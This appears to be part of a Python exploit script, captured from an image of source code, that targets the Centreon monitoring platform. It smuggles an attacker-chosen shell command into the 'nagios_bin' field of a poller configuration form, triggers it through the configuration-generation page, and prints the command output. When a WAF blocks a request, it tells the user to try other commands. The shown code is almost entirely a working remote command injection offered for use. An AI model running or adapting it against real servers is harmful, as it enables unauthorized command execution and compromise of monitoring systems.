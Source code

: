         payload_info = {
            "name": "Central",
            "ns_ip_address": "127.0.0.1",
            # this value should be 1 always
            "localhost[localhost]": "1",
            "is_default[is_default]": "0",
            "remote_id": "",
            "ssh_port": "22",
            "init_script": "centengine",
            # this value contains the payload , you can change it as you want
            "nagios_bin": f'{command}||',
            "nagiostats_bin": "/usr/sbin/centenginestats",
            "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
            "centreonbroker_cfg_path": "/etc/centreon-broker",
            "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
            "centreonbroker_logs_path": "",
            "centreonconnector_path": "/usr/lib64/centreon-connector",
            "init_script_centreontrapd": "centreontrapd",
            "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
            "ns_activate[ns_activate]": "1",
            "submitC": "Save",
            "id": "1",
            "o": "c",
            "centreon_token": poller_token,
        }
    
        send_payload = request.post(poller_configuration_page, payload_info)
        print(f"[*] Payload inject status code: {send_payload.status_code}")
        if send_payload.status_code == 403:
            print("[-] WAF blocked command. Try something else")
            sys.exit()
        print("[+] Injecting Done, triggering the payload")
        generate_xml_page = url + "/include/configuration/configGenerate/xml/generateFiles.php"
        xml_page_data = {
            "poller": "1",
            "debug": "true",
            "generate": "true",
        }
        try:
            resp = request.post(generate_xml_page, xml_page_data, timeout=5)
            res = re.findall("id='debug_1'>(.*)<br><br></div><br/>]]", resp.text)[0]
            print(res.replace('<br>','\n'))
        except requests.Timeout:
            pass
    
    else:
        print("[-] Wrong credentials")
        exit()
    